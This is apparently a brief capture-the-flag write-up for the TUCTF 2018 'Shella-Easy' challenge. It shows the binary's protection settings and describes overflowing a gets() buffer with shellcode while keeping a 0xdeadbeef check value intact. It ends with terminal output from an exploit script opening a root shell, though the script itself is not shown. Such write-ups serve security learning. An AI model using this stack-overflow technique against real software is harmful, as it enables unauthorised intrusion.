 # TUCTF 2018 Shella-Easy

```
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments

```

We are given a stack address, and there's a call to ```gets```. We can write a ```shellcode``` and overflow until we reach ```ret```, which we will replace with that address. 

However, there is a check, a ```canary``` if you insist. ```(int)*(rbp-0x8)``` has to be ```0xdeadbeef```. Even so, the plan is still same.

```bash
[root@pwn:~/tuctf2018_shella-easy]$ python expl.py 
[+] Starting local process './shella-easy': pid 2226
0xfffead30
[*] Switching to interactive mode
 with a side of fries thanks
$ whoami
root
```
